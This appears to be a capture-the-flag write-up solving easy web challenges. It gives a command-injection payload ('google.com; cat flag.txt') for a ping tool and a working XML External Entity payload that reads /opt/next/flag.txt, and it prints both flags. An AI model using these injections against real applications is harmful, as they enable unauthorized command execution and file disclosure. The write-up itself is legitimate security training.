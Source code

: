 ## Latency - Easy
*Keep it simple, right? Just use existing tools to build upon.*

</br>

The challenge is a simple web-based ping tool. If you enter `google.com`, in the background, it calls `ping -c 4 google.com` and returns the results. You can exploit this by following up with arbitrary shell commands, for example google.com; ls will execute `ping -c 4 google.com; ls` and subsequently list all the files in the working directory. Enter `google.com; cat flag.txt` to get the flag.

The flag is `nland{5h377s-4r3-3v3rywh3r3}`.

<br>

## XML is stupid - Easy

*There's a reason why JSON became so popular. The flag is in /opt/next/flag.txt.*

</br>

The challenge is a web-based viewer for a custom XML format. The flag location is provided in the challenge text (`/opt/next/flag.txt`). An example file is also provided.

You need to use XML External Entities to inject the flag into one of the parsed fields. Do inject the contents of `/opt/next/flag.txt` into the `first-name` field, save the following as an `.xml` file and upload it:

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///opt/next/flag.txt"> ]>

<root>
  <first-name>&xxe;</first-name>
  <last-name>Mustermann</last-name>
</root>
```

The flag will be returned in place of the first name.

The flag is `nland{y0u-sh0u7dn7-us3-xm7}`.

<br>

## Into the Backrooms 1 - Easy

*This challenge has four different parts. The source code is always the same. The parts build on each other and you should work on them in their order.*

*I am currently working on the backend of a new shop system. It is still in development and not finished. Have a look for yourself and try to log into an account.*
<br>

[into_the_backrooms.zip](https://github.com/neuland-ingolstadt/Neuland-CTF-2022-Winter/blob/ced4cc975bdbe9e96325c74e69775142f68267f6/CTF%20Aufgaben/Web/Into%20the%20Backrooms%20-%20Easy%20Medium%20Hard/Public/into_the_backrooms.zip)

